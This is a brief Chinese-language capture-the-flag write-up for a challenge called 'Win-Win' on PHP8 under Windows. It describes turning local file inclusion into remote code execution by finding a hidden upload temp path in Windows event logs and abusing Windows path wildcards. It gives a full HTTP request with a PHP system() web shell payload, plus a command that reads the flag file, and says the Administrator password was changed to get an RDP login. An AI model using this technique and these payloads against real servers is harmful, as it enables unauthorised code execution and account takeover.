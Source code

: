 # Win-Win

環境：PHP8 + Windows 潮爆

🐂🍺隊友 [@ginoah](https://twitter.com/g1n04h) 發現 `C:/windows/system32/winevt/logs/application.evtx` 裡面有 

`C:\THIS_IS_A_SECRET_PATH_107B1177348CC063A0713838282B1C27892D5FE2\php`

所以知道 tmp 目錄在 `upload_tmp_dir="C:\THIS_IS_A_SECRET_PATH_107B1177348CC063A0713838282B1C27892D5FE2\tmp"`

配合 windows 路徑正規化特性，就可以LFI to RCE:

```
POST /?win=..\..\THIS_IS_A_SECRET_PATH_107B1177348CC063A0713838282B1C27892D5FE2\tmp\php<<<<<<<.tmp HTTP/1.1
Host: 9c26ca6d8b9f60f0e082f53ea66a79d2.winwin.pwnable.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDAZIAHqBWWxshbhU
Content-Length: 200


------WebKitFormBoundaryDAZIAHqBWWxshbhU
Content-Disposition: form-data; name="n"; filename="f"
Content-Type: text/plain

<?php system('whoami');?>
------WebKitFormBoundaryDAZIAHqBWWxshbhU--
```

接著找flag，發現:

```
<?php system('cmd /c "type ..\\Users\\Administrator\\Desktop\\flag.txt"');?>
Take a screenshot!
```

居然要截圖才有flag...WTF

但截圖莫名一直失敗

於是最後直接打tunnel+改Administrator密碼，然後RDP上去看flag

=>

`flag{3ebc6994110c4a10a54f7680b2181876}`
